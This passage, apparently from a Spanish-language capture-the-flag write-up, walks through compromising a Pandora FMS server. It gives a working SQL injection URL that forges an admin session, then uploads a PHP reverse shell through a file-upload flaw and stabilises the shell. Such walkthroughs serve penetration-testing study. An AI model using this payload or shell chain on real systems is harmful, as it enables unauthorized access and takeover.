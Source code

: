 ```
http://127.0.0.1:8888/pandora_console/include/chart_generator.php?session_id=a' UNION SELECT 'a',1,'id_usuario|s:5:"admin";' as data FROM tsessions_php WHERE '1'='1
```

Una vez explotada la vulnerabilidad recargo la página y logro **bypassear el login** y acceder al portal como admin.

<img title="" src="https://user-images.githubusercontent.com/55555187/155363890-fb3e170b-a4a7-490f-8204-60f1f879a426.PNG" alt="piv8" width="646">

Una vez aquí y habiendo leído que esta versión de Pandora FMS también es vulnerable al [CVE 2020-7935](https://nvd.nist.gov/vuln/detail/CVE-2020-7935) busco vias potenciales de subir un archivo desde el portal y las encuentro:

<img src="https://user-images.githubusercontent.com/55555187/155369004-f5f33659-6da5-428d-9b32-6ca7560f878b.PNG" title="" alt="piv12" width="484">

Observo que los archivos parecen guardarse en el directorio /images/ por lo que creo el directorio "NotSus" y subo un [archivo php](https://github.com/pentestmonkey/php-reverse-shell) que me entablará una reverse shell cuando se abra:

<img src="https://user-images.githubusercontent.com/55555187/155368823-c43feeb2-5a06-4b96-98c6-02e28f800fb3.PNG" title="" alt="piv10" width="503">

Accedo a la ubicación del archivo (también se podría hacer usando curl) y lo abro para entablarme la **reverse shell**:

<img title="" src="https://user-images.githubusercontent.com/55555187/155368824-8ba05753-2403-4dc9-a4f9-9e26ba683012.PNG" alt="piv11" width="519">

<img src="https://user-images.githubusercontent.com/55555187/155368817-e2e16c8a-b60a-42ef-ac65-7601e75a2ac5.jpg" title="" alt="piv12 PNG" width="484">

### Tratamiento de la tty

Realizo un tratamiento de la tty para tener una shell interactiva y en la que pueda trabajar cómodamente. Para ello lanzo los siguientes comandos:

#### Tratamiento básico

```
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset
xterm
export XTERM=xterm
export SHELL=bash
```

#### Escalado de editores de texto

```
stty -a (En una terminal de nuestro equipo para ver los valores de 
            columns y rows)

stty rows [rows] columns [columns]
```
